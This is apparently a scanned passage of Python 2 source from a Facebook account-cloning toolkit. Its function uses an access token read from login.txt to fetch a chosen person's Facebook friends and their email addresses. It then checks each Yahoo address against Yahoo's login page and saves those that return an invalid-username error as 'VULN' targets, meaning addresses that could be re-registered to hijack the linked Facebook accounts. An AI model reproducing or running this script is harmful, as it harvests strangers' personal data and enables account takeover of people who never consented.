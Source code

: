 ##### CLONE FROM FRIEND #####
def yahoofromfriends():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('reset')
	print logo
	mpsh = []
	jml = 0
	idt = raw_input("\033[1;91m[+] \033[1;92mInput ID friend \033[1;91m: \033[1;97m")
	try:
		jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
		op = json.loads(jok.text)
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom\033[1;91m :\033[1;97m "+op["name"]
	except KeyError:
		print"\033[1;91m[!] Friend not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	jalan('\033[1;91m[✺] \033[1;92mGetting email from friend \033[1;97m...')
	teman = requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+toket)
	kimak = json.loads(teman.text)
	save = open('out/FriendMailVuln.txt','w')
	jalan('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in kimak['data']:
		jml +=1
		mpsh.append(jml)
		id = w['id']
		nama = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+nama)
					berhasil.append(mail)
		except KeyError:
			pass